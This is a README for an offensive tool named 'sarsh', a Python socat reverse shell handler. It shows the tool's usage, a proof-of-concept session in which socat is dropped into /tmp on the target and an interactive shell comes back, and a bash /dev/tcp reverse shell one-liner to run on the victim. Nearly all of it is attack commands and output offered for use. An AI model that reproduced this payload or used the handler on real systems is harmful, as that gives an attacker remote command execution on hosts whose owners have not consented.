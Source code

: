 # sarsh
SARSH - Socat Advanced Reverse Shell Handler

Usage:
```
python3 sarsh.py <ip> <port>
```

POC:
```
┌──(kali㉿kali)-[~/Desktop/sarsh]
└─$ python3 sarsh.py 192.168.152.128 1337
Listening on 192.168.152.128:1337
Connection from 192.168.152.130:42314
Transfering socat...

Socat transfered!
Socat name on the target: /tmp/lyqginuvpexxuvwj
Waiting for connection...
ubuntu@ubuntu-64:/tmp$ whoami
ubuntu
ubuntu@ubuntu-64:/tmp$
```

Ubuntu payload:
```
ubuntu@ubuntu-64:/tmp$ bash -i >& /dev/tcp/192.168.152.128/1337 0>&1
```
